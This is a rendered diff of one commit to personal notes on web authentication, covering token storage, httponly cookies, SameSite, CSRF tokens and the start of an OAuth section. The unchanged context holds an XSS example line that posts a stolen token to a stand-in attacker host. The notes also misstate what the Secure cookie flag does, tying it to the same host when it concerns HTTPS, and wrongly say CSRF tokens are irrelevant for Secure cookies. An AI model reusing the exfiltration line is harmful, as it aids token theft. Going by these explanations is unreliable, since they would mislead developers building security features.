

Before and after one commit to makeevolution/notes, a Markdown page: security/authentication-authorization.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/security/authentication-authorization.md
+++ b/security/authentication-authorization.md
@@ -53,9 +53,11 @@
         fetch('https://attacker.example/steal', { method:'POST', body: token });
       ```
 
+      A usual alternative is to store the token in-memory instead, but then the token would be non-persistent and have to be refreshed often.
       - Store in httponly cookies makes it not vulnerable against XSS, but it is then vulnerable to CSRF attacks, unless you set samesite=lax or none with secure=True and CSRF token. Explanation:
         - Samesite property of a cookie explanation: It determines whether a cookie should be sent to other sites other than any host that issued the cookie (i.e. cross site), depending on the type of request (safe like GET or unsafe like POST). Secure means the cookie will only be sent if it was sent by a website with the same host as the backend/receiver, no matter if it is safe or unsafe request. Lax means if you have a cookie issued by B.com, you are in A.com and clicks a link to B.com (i.e. top level redirection), then the cookie is included. But if you are making a POST request to B.com through a form in A.com, then it won't be included. If you set None, but without secure=True, then modern browsers will not send the cookie at all whether it is a redirection or a form. If you use secure=True, then it will be included by the browser, for both top level redirect or even form (i.e. POST/unsafe requests), but only if it is sent through HTTPS. Thus, samesite=None even with secure=True still allows unsafe requests from cross site, making it possible for an attacker.com to change the backend.
         - So, if your cookie is Samesite=None, it is not possible to securely send an unsafe request without any extra actions. To make it possible to securely send a unsafe request, use CSRF Token. This token would be generated by your backend when logging in, and can be set in localStorage by frontend. When making form requests, the frontend will also need to read it from localSTorage and set it as a X-CSRF-TOKEN header for the form request to be successful. CSRF Token is then not relevant for lax or secure cookies (since it is by definition cannot make POST request to cross sites!).
+      - So using httponly cookie with samesite=None and Secure=True allows persistence (if the browser is closed and reopened you can still auto login), or for SSO, where the token can then be used from multiple frontends, but makes it more complicated since we need to implement CSRF protection.
 
 ### OAuth:
     - OAuth is a specification for an authorization protocol/flow (i.e. specifying what a principal, that is, a user or service, can do to a resource in a particular server)
````
